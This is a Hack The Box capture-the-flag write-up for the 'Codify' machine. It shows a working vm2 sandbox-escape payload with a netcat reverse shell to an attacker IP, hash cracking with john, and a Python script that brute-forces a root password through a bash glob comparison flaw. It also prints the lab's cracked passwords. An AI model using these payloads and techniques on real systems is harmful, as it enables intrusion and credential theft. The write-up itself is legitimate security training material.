 ```yaml
---
author: 0xbinder
layout: post
title: Codify - HTB Machine
date: '2023-11-07'
description: "Codify is an easy linux machine from HTB"
categories: [Hack The Box]
---
```


## MACHINE INFO

> **[Codify](https://app.hackthebox.com/machines/Codify)** is an easy linux machine which leverages a CVE on `vm2` and the knowledge of `javascript` inorder to create a script for a reverse shell and the basic of any scripting language such as `python` to create a custom script for privilege escalation through bruteforce attack.

## ENUMERATION

```bash
nmap -sV -sC -top-ports 100 10.10.11.239
```

```bash
Nmap scan report for 10.10.11.239
Host is up (0.79s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.78 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
The website allows us to run javascript code

![img-description](1.png)

We notice the website uses vm2

![img-description](2.png)

After searching for the exploits on vm2 i came across this [CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5) that allows RCE

We craft our payload to create [netcat bind and reverse shells](https://patchthenet.com/blog/create-bind-and-reverse-shells-using-netcat/) to connect with netcat

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.178 4242 >/tmp/f');
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We then listen on our machine for connections

```bash
sudo nc -lnvp 4242
```

We run the code and immediately "WE ARE IN". We move to var/www/ and find a directory ```contact```. We move into the directory and find ```tickets.db```
```bash
$ cd var/www/  
$ ls
contact
editor
html
$ cd contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
```

We use sqlite3 to get the data in users table. We find a user joshua with a hash 
```bash
$ sqlite3 tickets.db
.tables
tickets  users  
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We crack the hash with john and find the password ```spongebob1```
```bash
john --wordlist=/usr/share/dict/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:11 DONE (2023-11-07 11:45) 0.01399g/s 19.14p/s 19.14c/s 19.14C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We connect with ssh to the machine
```bash
ssh joshua@10.10.11.239
password: spongebob1
```

## PRIVILEGE ESCALATION
We notice a script running at ```/opt/scripts/mysql-backup.sh```. The script allows us to guess the password endless times
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
We create a python script to bruteforce the password of the root
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

```bash
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
We switch to root and enter the password. We are now r00t
```bash
joshua@codify:/tmp$ su
Password: 
root@codify:/tmp#
```

<!-- ![img-description](3.png) -->
